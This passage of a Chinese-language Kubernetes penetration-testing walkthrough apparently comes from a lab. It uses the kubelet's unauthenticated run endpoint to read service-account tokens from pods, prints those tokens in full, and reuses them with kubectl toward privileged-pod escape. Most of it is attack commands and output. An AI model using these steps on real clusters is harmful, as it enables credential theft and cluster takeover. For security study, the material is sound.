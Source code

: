```bash
curl -XPOST -k "https://192.168.108.102:10250/run/default/nginx-6867cdf567-9sv8d/nginx" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1701678402-0a58b5da0a6bab4a006ba62c41580631.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e8dbaa3c-8f70-1.png)  
如果挂载到集群内的 token 具有创建 pod 的权限，可以通过 token 访问集群的 api 创建特权容器，然后通过特权容器逃逸到宿主机，从而拥有集群节点的权限，这里类似于我们的横向渗透

```bash
kubectl --insecure-skip-tls-verify=true --server="https://192.168.108.100:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tOXJ0Z3YiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjE1NzdiNWYxLTMxMjQtNDg2NS1iZDBkLWY4OTc4N2U1MzM3ZSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.xRU5DY0YZx9QAVw9qnbb6RMWb_9oYv0W5OjVHasmFtCpIPI5Hg2NNf6pRXtsDZc4XomqXRpPdF5YTnnxwa7pOL6Sy0RzBQYDoirMsc1qoW6wsI9YlO8hEf73aTXIDP9QwnwNn2UWktkYkXyiPiDPHd5G64WXqyKg0apW-HcgLYzrmwII2fy6OJYOJJQFwdebrWlgshPhAoT-GTs3KRHRGfJsDHJ6zC0mIXwxthDz1HSI4pxX-v4wmq3R0UYx5Nr-yKhHMgzKjZqoX_xzZXCcRbvXm3yL5-UqKd_zTMX4r9SD93VS-eNKwZC9fnhN8Ey9jXY3NNazsHG9PSJsAwtfTA" get pods
```

[![](assets/1701678402-2105205b7ef2576ebad45d3b7834a382.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e8fe07ee-8f70-1.png)  
报错是

```bash
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:default:default" cannot list resource "pods" in API group "" in the namespace "default"
```

我们上述讲到了，需要获取的 token 有创建权限，这里的报错是因为我们的 token 没有创建权限，尝试换一个

```bash
curl -XPOST -k "https://192.168.108.102:10250/run/kube-system/kube-proxy-l2psz/kube-proxy" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
#得到的 token
eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlLXByb3h5LXRva2VuLTJidzhsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6Imt1YmUtcHJveHkiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJkNGExYWViOS04ZWUxLTQ0NzktODlhZi01OGFlYTEyZWM1NjQiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06a3ViZS1wcm94eSJ9.p5hlTUIYMIfjVNey6g8e4lYAnlB9Jae2d8A4hxLenGGUuyjkHbu8W7z9E7HZ9IEvzVjd8eQFv8_NGTGjTNL8qbRX6nszqg0DS5ABp5ZHHWiYSTD1222etxmi-BN4Qu296PzGG_Udr64cJkRsztJ1PkDrsrGndwWwsds5qzDGlZEgvyrt9Farlo3NyBTjNCU7hdDthBmjFq0Gqufkw-BNb88s0JgkmEx-fs7p2wPwk2nEKstC8f2ARRZx75PCMS-pLEUGHpphLKDAP1O08pwO3JzhZrc3LJpPB-0XPayNQiPYgJjshttV7ICV3FiTGoiP2H_UeyLtytzfXgIk9eX5jA
#
kubectl --insecure-skip-tls-verify=true --server="https://192.168.108.100:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlLXByb3h5LXRva2VuLTJidzhsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6Imt1YmUtcHJveHkiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJkNGExYWViOS04ZWUxLTQ0NzktODlhZi01OGFlYTEyZWM1NjQiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06a3ViZS1wcm94eSJ9.p5hlTUIYMIfjVNey6g8e4lYAnlB9Jae2d8A4hxLenGGUuyjkHbu8W7z9E7HZ9IEvzVjd8eQFv8_NGTGjTNL8qbRX6nszqg0DS5ABp5ZHHWiYSTD1222etxmi-BN4Qu296PzGG_Udr64cJkRsztJ1PkDrsrGndwWwsds5qzDGlZEgvyrt9Farlo3NyBTjNCU7hdDthBmjFq0Gqufkw-BNb88s0JgkmEx-fs7p2wPwk2nEKstC8f2ARRZx75PCMS-pLEUGHpphLKDAP1O08pwO3JzhZrc3LJpPB-0XPayNQiPYgJjshttV7ICV3FiTGoiP2H_UeyLtytzfXgIk9eX5jA" get pods
```
